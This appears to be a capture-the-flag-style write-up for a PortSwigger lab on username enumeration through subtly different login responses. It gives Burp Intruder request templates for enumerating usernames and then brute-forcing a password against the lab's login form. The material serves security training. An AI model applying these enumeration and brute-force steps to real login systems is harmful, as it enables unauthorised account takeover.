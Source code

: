 # [Lab: Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)

## Lab

This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Solutions

enumerate username using burp's intruder:

- mode: sniper
- positions:

  ```http
  POST /login HTTP/1.1

  username=§test§&password=test
  ```

- payloads: [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)

- via subtly different responses, we can enumerate exist users:
  ![username-enumeration.png](./../img/lab-4-username-enumeration.png)

find password using burp's intruder:

- mode: sniper
- positions:

  ```http
  POST /login HTTP/1.1

  username=existed_username&password=§test§
  ```

- payloads: [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)
- based on the response, we can find the password
  ![find-password.png](./../img/lab-4-find-password.png)

